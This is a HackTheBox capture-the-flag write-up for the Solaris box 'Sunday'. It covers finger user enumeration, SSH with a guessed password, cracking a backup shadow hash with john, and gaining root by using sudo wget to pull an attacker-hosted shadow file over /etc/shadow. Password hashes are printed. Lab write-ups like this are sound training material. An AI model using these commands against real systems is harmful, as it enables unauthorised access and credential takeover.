

This box was an Easy box from HackTheBox. It's OS is Solaris and the entry point is with SSH. Solaris is not so common in HackTheBox machines. This box was really easy to solve. I did not make any exploit for it because there is no need for that. When you get a shell as sunny, you find a backup file with sammy password. When you get sammy shell you see that this user can run wget as root, then I overwrite tie /etc/shadow file, changing the root password, and becomde root with a simple su. I know that we can do this box in other ways but we have more boxes to complete. Hope you enjoy my simple write-up!

# Diagram



# Enumeration

First step is to enumerate the box. For this we'll use `nmap`

```sh
nmap -sV -sC -Pn 10.10.10.76
```

> -sV - Services running on the ports

> -sC - Run some standart scripts

> -Pn - Consider the host alive


## Port 79

We find on port 79 an application called [finger](https://en.wikipedia.org/wiki/Finger_protocol) which is a protocol to show logged users on a machine.

We found [this](https://raw.githubusercontent.com/pentestmonkey/finger-user-enum/master/finger-user-enum.pl) script to enumerate users in this box

```sh
./finger-user-enum.pl -U list.txt -t 10.10.10.76
```


And we found the users sammy and sunny.

# SSH Port 22022 - Sunny

We just try to ssh with this user with the password sunday, and we get success

```sh
ssh -p 22022 sunny@10.10.10.76
```


# sunny --> sammy

Now, let's escalate to a sammy shell

We found a shadow.backup file


```
sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::
```

And we break it with john

```sh
john hash.txt --wordlist=pass.txt
```


Now, just su as sammy


# sammy --> root

Now, let's get root

With just sudo -l we see that we can execute wget as root


On [gtfobins](https://gtfobins.github.io/gtfobins/wget/) we see how to get root with that

We create a shadow to overwrite the original one with a password we already know


```
root:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::
mysql:NP:::::::
openldap:*LK*:::::::
webservd:*LK*:::::::
postgres:NP:::::::
svctag:*LK*:6445::::::
nobody:*LK*:6445::::::
noaccess:*LK*:6445::::::
nobody4:*LK*:6445::::::
sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::
sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::
```

Now, just trigger it

```sh
sudo wget http://10.10.16.3/over.txt -O /etc/shadow
```


And we can su root with this new password, sunday

```sh
su root
```

